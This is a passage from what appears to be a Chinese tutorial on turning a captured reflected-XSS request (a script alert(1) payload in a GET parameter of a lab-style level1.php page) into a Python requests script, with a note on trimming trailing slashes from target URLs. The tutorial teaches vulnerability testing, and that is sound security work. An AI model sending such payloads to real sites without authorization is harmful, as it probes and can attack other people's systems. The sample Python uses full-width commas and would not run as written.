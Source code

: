 ![](../../.gitbook/assets/lizi-xss.jpg)

从图中可以看出，这个漏洞是XSS，且是使用GET方法发送了一个包，这个包**最简化**后，我放在下面：

```bash
GET /level1.php?name=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: 123.123.123.123
```

此时，python代码中可以这样表示：

```python
import requests
target = ""
url = target.rstrip("/") + "/level1.php?name=%3Cscript%3Ealert(1)%3C/script%3E"
req = requests.get(url，timeout=10)
# 也可以这样：
method = "GET"
req = requests.request(method, url，timeout=10)
```

如上代码，之所以需要加 `.rstrip("/")` ，是因为若输入 URL 中若结尾有 `/` ，即若输入 `http://a.com/` 而不是 `http://a.com` 时，部分矫情网站在访问过程中，脚本便会请求出错

<figure><img src="../../.gitbook/assets/strip01.jpg" alt=""><figcaption></figcaption></figure>
